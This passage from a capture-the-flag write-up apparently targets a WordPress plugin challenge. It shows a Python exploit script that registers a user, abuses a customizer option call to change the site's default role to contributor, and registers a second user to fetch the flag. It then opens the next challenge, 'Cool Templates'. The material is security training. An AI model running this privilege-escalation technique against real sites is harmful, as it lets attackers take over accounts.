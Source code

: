     async def main():
        api = API()
        username = "dimas"
        password = "dimas"
        res = await api.login_register_user(username, "dimas@dimas.com", password)
        print(res.text)
        res = await api.wp_login(username, password)
        nonce = await api.get_nonce()
        res = await api.login_customizer_set_option(nonce, "default_role", "contributor")
        print(res.text)
        randomtxt = random.randbytes(4).hex()
        username = username + randomtxt
        password = password + randomtxt
        api = API()
        res = await api.login_register_user(username, f"dimas{randomtxt}@dimas.com", password)
        print(res.text)
        res = await api.wp_login(username, password)
        res = await api.patchstack_get_the_flag()
        print(res.text)


    if __name__ == "__main__":
        asyncio.run(main())

    ```

### Flag

![](./imgs/image_TvJgIAwn.png)

# **Cool Templates**

| Solves | 11 |
| ------ | -- |

Description

    I had someone build me a plugin so I can send out some links with special footers. I'm sure the code is safe, right?

    This is a whitebox challenge, no need to bruteforce anything (login, endpoint, etc).

Attachments
